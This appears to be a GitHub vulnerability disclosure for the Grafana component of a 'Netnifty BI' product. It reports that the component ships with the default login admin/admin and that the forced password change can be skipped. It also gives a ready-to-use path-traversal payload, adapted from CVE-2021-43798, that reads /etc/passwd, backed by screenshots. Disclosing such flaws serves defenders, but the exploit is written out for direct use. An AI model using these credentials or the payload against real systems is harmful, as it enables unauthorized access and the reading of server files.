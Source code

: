 # youdata_Vulnerabilities
Two vulnerabilities exist in version 7.20 of the grafana component of the Netnifty BI product: file reading and default password.
## Default password

The default password is：admin/admin

Verification Screenshot

Login page
![image](https://user-images.githubusercontent.com/43473886/199382994-c1e01821-4379-43f4-949a-03beb471db75.png)
Prompted to change the password, here proves that the default password of grafana component is the above given: admin/admin.Click the skip button here to skip the default password change
![image](https://user-images.githubusercontent.com/43473886/199383049-0384871f-3e68-4d3b-963e-cda512803e7c.png)
Successful login
![image](https://user-images.githubusercontent.com/43473886/199383084-7b85a2ae-8732-418a-8a8d-847f5ce4db99.png)

## File Read

This is magically modified from the payload of grafana's file reading vulnerability (CVE-2021-43798).

payload

```
/monitor/public/plugins/text/#/../../../../../../../../../../etc/passwd
```

Verification Screenshot

![image](https://user-images.githubusercontent.com/43473886/199383142-b2546da7-2187-4fb6-88ee-e7f117e8857e.png)
